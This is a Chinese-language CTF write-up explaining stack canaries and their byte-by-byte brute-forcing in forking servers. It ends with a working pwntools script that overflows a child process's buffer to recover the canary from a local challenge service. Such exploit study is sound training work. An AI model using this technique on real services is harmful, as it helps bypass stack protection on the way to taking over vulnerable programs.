

## 1.知识摘要

stack cannaries用来保护栈溢出。其位置在返回地址之前。

32位                         
|cannray (4字节)|         
|---|
|ebp|
|return_address|

64位                         
|cannray (8字节)|         
|---|
|ebp|
|return_address|


## canary爆破
1. 对于canary来说，每次进程重启后canary都不同，但对于同一进程中的不同线程canary是相同的。比如fork出的线程，因为fork会直接拷贝父进程的内存。
2. 对于32位程序来说，canary是gs:0x14 ,64位的canary是fs:0x28。这个canary值来自于线程局部存储（thread local Storage,TLS）。
3. canary的最低位为0x00。主要是用于截断。假如栈上的字符串被泄露，则会把canary值也会泄露出来，但首位为0x00截断，则可以防止泄露。
4. 可以对canary逐字节爆破。因为只是去逐位去覆盖匹配canary。如果正确则不会有信息出现，如果错误则会崩溃报错。
## 题目描述

程序开启了canary.


查看while，跳出循环的依据是fork的返回值。fork的返回值有三种情况。
- 负值，出现错误。
- 0。 是在子进程中。
- 新创建的子进程的id。 在父进程中。
当返回值为0,即在子进程中跳出循环。查看sub_400bBE9函数。

明显的栈溢出

所以可以尝试去爆破canary值，因为目前所在的是子进程，子进程崩溃是不会影响到主进程的。
```
from pwn import *
import time
time = 8
canary = '\x00'
print(len(canary))
result =[]
while len(canary)<8:
    for i in range(256):
        io = remote('127.0.0.1',5555)
        io.recv()
        
        payload = 'a'*104+canary+chr(i)
        print(payload)
        io.send(payload)
        try:
            io.recv()
            canary += chr(i)
            print(canary, i)
            result.append(i)
            break
        except:
            continue
        finally:
            io.close()
print(result)
print("canary is",canary)
```

